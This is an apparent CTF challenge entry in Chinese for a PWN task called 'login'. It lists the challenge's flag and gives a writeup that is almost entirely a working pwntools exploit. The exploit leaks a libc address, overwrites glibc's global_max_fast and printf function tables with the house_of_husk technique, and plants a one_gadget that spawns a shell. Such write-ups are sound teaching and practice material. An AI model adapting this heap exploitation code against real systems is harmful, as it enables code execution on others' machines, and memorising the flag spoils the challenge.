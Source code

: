 - **题目名称：** login
- **题目类型：** PWN  （决赛）
- **题目难度：**中等偏下(?)
- **出题人：** i-Corner
- **考点：**

1. IO or house_of_husk
1. 检索+耐心

- **描述：** 跑路结束！原神，启动！尘歌壶，养猪！
- **flag：** XSCTF{C0ngratulati0n_u_are_the_real_her0}
- **Writeup：**

```python
from pwn import *
#p = process("./login")
#p = process(["./pwn"],env={"LD_PRELOAD":'./libc-2.27.so'})
#gdb.attach(p)
#pause()
p = remote("0.0.0.0",10001)
context.log_level='debug'
#define MAIN_ARENA       0x3ebc40
#define MAIN_ARENA_DELTA 0x60
#define GLOBAL_MAX_FAST  0x3ed940
#define PRINTF_FUNCTABLE 0x3f0738
#define PRINTF_ARGINFO   0x3ec870
#ARGTABLE_Size = (0x3ec870-0x3ebc40)*2 - 0x10 = 0x1850
#FUNCTABLE_Size = (0x3f0738-0x3ebc40)*2 - 0x10 = 0x95e0
# use python to calculate

p.sendlineafter("What size of a pig you want?\n",str(0x1850)) 

p.sendlineafter("Wow! You can get a new size of a pig!",str(0x95e0)) #local 


libc_base = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))-0x3ebca0
global_max_fast = libc_base + 0x3ed940
print('libc:',hex(libc_base))
print('global_max_fast',hex(global_max_fast))

#p.sendafter("New name:",b'/bin/sh\x00'+p64(global_max_fast-0x10))
p.sendafter("New name:",b'a'*0x8+p64(global_max_fast-0x10))
p.sendlineafter("Which one?\n",'1')
#gdb.attach(p)
one_gadget = 0x10a2fc+libc_base
#gdb.attach(p)
#pause()

p.sendafter("Feed what?",b'a'*((ord('s')-2)*8)+p64(one_gadget))

# when call printf('%s') then getshell 
p.interactive()


```
